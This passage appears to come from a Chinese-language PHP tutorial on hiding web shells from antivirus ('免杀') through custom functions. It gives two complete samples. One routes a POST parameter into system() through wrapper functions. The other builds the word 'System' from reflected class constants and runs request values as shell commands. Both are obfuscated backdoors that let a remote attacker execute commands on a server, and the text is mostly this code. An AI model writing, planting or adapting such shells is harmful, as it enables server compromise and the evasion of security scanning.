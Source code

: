 ## 10# 自定义函数绕过

通过自定义函数，将恶意代码内容隐藏于自定义函数当中，再进行拼接执行

### 10.1 简单自定义函数

这个要与其他的姿势进行结合，目前没办法通过简单自定义函数进行免杀

```php
function out($b){
    return $b;
}
function zhixin($a){
    return system($a);
}
function post(){
    return $_POST['aabyss'];
}

function run(){
    return out(zhixin)(out(post()));
}

run();
```

### 10.2 读取已定义函数

获取某个类的全部已定义的常量，不管可见性如何定义

```php
public ReflectionClass::getConstants(void) : array
```

例子如下：

```php
class Test
{
    const a = 'Sy';
    const b = 'st';
    const c = 'em';

    public function __construct(){
    }
}

$para1;
$para2;
$reflector = new ReflectionClass('Test');

for ($i=97; $i <= 99; $i++) {
    $para1 = $reflector->getConstant(chr($i));
    $para2.=$para1;
}

foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}

$para2($_value);
```
